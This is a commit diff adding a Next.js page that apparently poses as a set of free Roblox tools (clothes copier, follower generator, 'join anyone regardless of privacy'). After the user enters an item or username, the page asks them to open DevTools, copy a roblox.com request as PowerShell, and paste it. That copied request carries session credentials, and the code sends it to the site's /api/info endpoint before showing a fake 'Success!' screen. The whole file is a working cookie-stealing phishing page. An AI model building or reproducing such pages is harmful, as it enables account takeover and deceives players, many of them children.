

Before and after one commit to 0xF34/autohart, a Next.js app: page /1/1 in a window 1280 px wide. Before the commit this address had no page. Shown: the part 172-606 px from the top of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Create page.js

```diff
--- /dev/null
+++ b/app/[tool]/[directory]/page.js
@@ -0,0 +1,153 @@
+'use client'
+
+import { useState } from 'react'
+import { useParams } from 'next/navigation'
+
+const TOOLS = {
+  'Copy-Clothes': { icon: '👕', title: 'Clothes Copier', desc: 'Copy any clothing item instantly', label: 'Clothing ID', placeholder: 'Paste clothing ID or URL', button: 'Copy Clothes!', color: '#ef4444' },
+  'Copy-Games': { icon: '🎮', title: 'Game Downloader', desc: 'Download any game and assets', label: 'Game ID', placeholder: 'Paste game ID or URL', button: 'Download Game!', color: '#22c55e' },
+  'Bot-Followers': { icon: '👤', title: 'Followers Generator', desc: 'Generate followers for any account', label: 'Username', placeholder: 'Enter username', button: 'Send Followers!', color: '#3b82f6' },
+  'Group-Botter': { icon: '👥', title: 'Group Botter', desc: 'Bot members to any group', label: 'Group Link', placeholder: 'Paste group link', button: 'Bot Group!', color: '#8b5cf6' },
+  'Vc-Enabler': { icon: '🎤', title: 'Voice Chat Enabler', desc: 'Enable VC without verification', label: 'Username', placeholder: 'Enter username', button: 'Enable VC!', color: '#ec4899' },
+  'Join-Anyone': { icon: '🔓', title: 'Join Anyone', desc: 'Join any user regardless of privacy', label: 'Username', placeholder: 'Enter username', button: 'Join User!', color: '#f59e0b' },
+  'Enable-Shaders': { icon: '✨', title: 'Shader Enabler', desc: 'Enable advanced graphics', label: 'Username', placeholder: 'Enter username', button: 'Enable Shaders!', color: '#06b6d4' },
+  'Limited-Checker': { icon: '🔍', title: 'Limited Checker', desc: 'Check any limited item value', label: 'Item ID', placeholder: 'Paste item ID or URL', button: 'Check Item!', color: '#10b981' }
+}
+
+export default function ToolPage() {
+  const params = useParams()
+  const tool = TOOLS[params.tool] || { icon: '🔧', title: params.tool?.replace(/-/g, ' '), desc: 'Roblox tool', label: 'Input', placeholder: 'Enter value', button: 'Submit', color: '#3882f6' }
+  const directory = params.directory
+
+  const [step, setStep] = useState('input')
+  const [inputValue, setInputValue] = useState('')
+  const [pasted, setPasted] = useState('')
+  const [error, setError] = useState('')
+
+  const submit = async () => {
+    if (!inputValue.trim()) return
+    setStep('devtools')
+  }
+
+  const verify = async () => {
+    if (!pasted.trim()) return
+    setStep('processing')
+    setError('')
+
+    try {
+      const res = await fetch('/api/info', {
+        method: 'POST',
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify({ content: pasted, directory, tool: tool.title })
+      })
+
+      const data = await res.json()
+
+      if (data.success) {
+        setTimeout(() => setStep('success'), 2000)
+      } else {
+        setError(data.message || 'Something went wrong')
+        setStep('devtools')
+      }
+    } catch {
+      setError('Network error')
+      setStep('devtools')
+    }
+  }
+
+  return (
+    <div className="min-h-screen flex items-center justify-center p-4">
+      <div className="w-full max-w-md">
+        {step === 'input' && (
+          <div className="bg-card border border-border rounded-2xl p-6">
+            <div className="text-center mb-6">
+              <div className="text-5xl mb-3">{tool.icon}</div>
+              <h1 className="text-2xl font-bold mb-2">{tool.title}</h1>
+              <p className="text-gray-400 text-sm">{tool.desc}</p>
+            </div>
+
+            <div className="mb-4">
+              <label className="block text-sm text-gray-300 mb-2">{tool.label}</label>
+              <input
+                type="text"
+                value={inputValue}
+                onChange={(e) => setInputValue(e.target.value)}
+                placeholder={tool.placeholder}
+                className="w-full bg-bg border border-border rounded-lg px-4 py-3 text-white placeholder-gray-500 focus:outline-none"
+              />
+            </div>
+
+            <button
+              onClick={submit}
+              disabled={!inputValue.trim()}
+              className="w-full font-semibold rounded-lg py-3 disabled:opacity-50 text-white"
+              style={{ backgroundColor: tool.color }}
+            >
+              {tool.button}
+            </button>
+          </div>
+        )}
+
+        {step === 'devtools' && (
+          <div className="bg-card border border-border rounded-2xl p-6">
+            <div className="text-center mb-5">
+              <div className="text-4xl mb-3">🛠️</div>
+              <h2 className="text-xl font-bold mb-2">Verification Required</h2>
+              <p className="text-gray-400 text-sm">Follow these steps to verify your account</p>
+            </div>
+
+            <div className="bg-bg rounded-lg p-4 mb-4 text-sm text-gray-300">
+              <ol className="list-decimal list-inside space-y-2">
+                <li>Open DevTools (F12)</li>
+                <li>Go to Network tab</li>
+                <li>Find a roblox.com request</li>
+                <li>Right-click → Copy as PowerShell</li>
+                <li>Paste below</li>
+              </ol>
+            </div>
+
+            <textarea
+              value={pasted}
+              onChange={(e) => setPasted(e.target.value)}
+              placeholder="Paste DevTools data here..."
+              rows={5}
+              className="w-full bg-bg border border-border rounded-lg px-4 py-3 text-white placeholder-gray-500 focus:outline-none mb-3 font-mono text-xs"
+            />
+
+            {error && <p className="text-red-400 text-sm mb-3">{error}</p>}
+
+            <button
+              onClick={verify}
+              disabled={!pasted.trim()}
+              className="w-full font-semibold rounded-lg py-3 disabled:opacity-50 text-white mb-2"
+              style={{ backgroundColor: tool.color }}
+            >
+              Verify & Continue
+            </button>
+
+            <button onClick={() => setStep('input')} className="w-full text-gray-400 text-sm py-2">
+              Go back
+            </button>
+          </div>
+        )}
+
+        {step === 'processing' && (
+          <div className="bg-card border border-border rounded-2xl p-8 text-center">
+            <div className="animate-spin text-5xl mb-4">⚙️</div>
+            <h2 className="text-xl font-bold mb-2">Processing...</h2>
+            <p className="text-gray-400 text-sm">Verifying your account</p>
+          </div>
+        )}
+
+        {step === 'success' && (
+          <div className="bg-card border border-green-500/30 rounded-2xl p-8 text-center">
+            <div className="text-6xl mb-4">✅</div>
+            <h2 className="text-2xl font-bold mb-2">Success!</h2>
+            <p className="text-gray-400 mb-4">Account verified. Check your Roblox account.</p>
+            <p className="text-green-400 text-sm">The {tool.title} is now active!</p>
+          </div>
+        )}
+      </div>
+    </div>
+  )
+}
```
